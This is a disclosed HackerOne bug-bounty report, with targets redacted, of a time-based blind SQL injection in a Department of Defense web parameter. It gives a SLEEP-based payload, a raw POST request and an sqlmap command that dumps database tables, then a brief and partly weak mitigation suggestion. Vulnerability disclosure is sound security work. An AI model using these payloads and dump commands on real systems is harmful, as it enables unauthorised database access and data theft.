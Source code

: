 # SQL injection located in `███` in POST param `████████` 

## Report Details
- **Report ID**: 1262757
- **URL**: https://hackerone.com/reports/1262757
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-07-15T08:36:12.295Z
- **Disclosed**: 2021-09-09T20:00:36.835Z

## Reporter
- **Username**: brumens
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hey DoD security team!

I was able to exploit an SQL injection [1] in one of your domains.

# Description

An SQL injection [1] was discovered in domain *https://████████/██████* in the parameter *██████████*. The SQL injection was located in a *WHERE* statment fallowed by a *INT* value.
The vulnerable parameter gave an indication quick with an *SQL syntax* error. That exposed it was an *████* database [2] in the backend.
 
# Proof Of Concept
Discovered the SQL injection by inputting an random value to trigger an SQL syntax error.
Discover_Payload: **██████████**
████

The fallowing payload was used for the SQL injection to be be triggered 
Payload: **2021 AND (SELECT 6868 FROM (SELECT(SLEEP(32)))IiOE)**
██████

Full exploit and gather information from the MYSQL database:
████


## References
[1] https://portswigger.net/web-security/sql-injection - *SQL injection explained*
[2] https://www.mysqltutorial.org/mysql-where/ - *MYSQL WHERE statment explained*
[3] https://www.mysql.com/ - *MYSQL Database*

## Impact

An attacker is able to gather all information stored in the database using boolen based SQL injection. (FULL database controll.)

## System Host(s)
███████

## Affected Product(s) and Version(s)
The whole database is affected and I'm able to gather all information stored in it.

## CVE Numbers


## Steps to Reproduce
1. Go to the domain **
2. Now intercept the request with Burp Suite.
3. Replace the *raw* data with the fallowing:
```
POST /██████ HTTP/1.1
Host: ██████████
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: https://█████████
Referer: https://████████/█████████
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

██████=2021█████
```
4 . Save request in Burp Suite => Right click => save item + *Name it*.
5. Run sqlmap command: **sqlmap -f --risk 2 -r /home/kali/Desktop/sql --dbms=mysql --tables --dump -p ██████████**.
It will quick discover the *███* to be vulnerable for SQL injection and XSS. Wait to it detect and verify it. It will then dump the tables.
as fallowing: (Only gather table and stoped after just as a proof of concept)
████

## Suggested Mitigation/Remediation Actions
Make sure to filter out SQL syntax and quotes and never trust user input.



## Attachments
No attachments
